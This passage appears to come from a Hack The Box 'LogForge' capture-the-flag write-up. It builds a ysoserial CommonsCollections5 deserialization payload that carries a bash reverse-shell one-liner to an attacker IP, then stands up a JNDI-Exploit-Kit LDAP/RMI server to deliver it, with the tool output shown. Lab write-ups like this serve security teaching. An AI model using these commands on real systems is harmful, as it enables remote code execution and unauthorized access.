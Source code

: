#### `Payload` -

`CommonCollections` set of gadget chains is a good place to start. We will use the following command that contains a bash one-liner to create a serialized payload  `payload.ser`:

```bash
root@napster:/opt/ysoserial-modified/target# java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.127/9001 0>&1' > ~/Documents/HTB/LogForge/payload.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
WARNING: An illegal reflective access operation has occurred
WARNING: Illegal reflective access by ysoserial.payloads.CommonsCollections5 (file:/opt/ysoserial-modified/target/ysoserial-modified.jar) to field javax.management.BadAttributeValueExpException.val
WARNING: Please consider reporting this to the maintainers of ysoserial.payloads.CommonsCollections5
WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
WARNING: All illegal access operations will be denied in a future release
```

It throws some warning but the file was created successfully-

```bash
root@napster:~/Documents/HTB/LogForge# ls -la
total 24
drwxr-xr-x   4 root root 4096 Jan  7 12:41 .
drwxr-xr-x 119 root root 4096 Jan  6 10:25 ..
-rw-r--r--   1 root root  112 Jan  7 10:55 gobuster.txt
drwxr-xr-x   4 root root 4096 Jan  7 12:08 LogForge
drwxr-xr-x   2 root root 4096 Jan  7 10:39 nmap
-rw-r--r--   1 root root 2069 Jan  7 12:41 payload.ser
```

Now we go into JNDI-Exploit-Kit/target to stand up an Ldap server that hosts our payload we just created -

```bash
root@napster:/opt/JNDI-Exploit-Kit/target# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.127:1389 -P ~/Documents/HTB/LogForge/payload.ser 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true                                                           
       _ _   _ _____ _____      ______            _       _ _          _  ___ _                                                         
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |                                                        
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_                                                       
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|                                                      
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_                                                       
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|                                                      
                                           | |                                                                                          
                                           |_|               created by @welk1n                                                         
                                                             modified by @pimps 

[HTTP_ADDR] >> 10.10.14.127
[RMI_ADDR] >> 10.10.14.127
[LDAP_ADDR] >> 10.10.14.127
[COMMAND] >> open /System/Applications/Calculator.app
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in
 classpath):
rmi://10.10.14.127:1099/o4hwev
```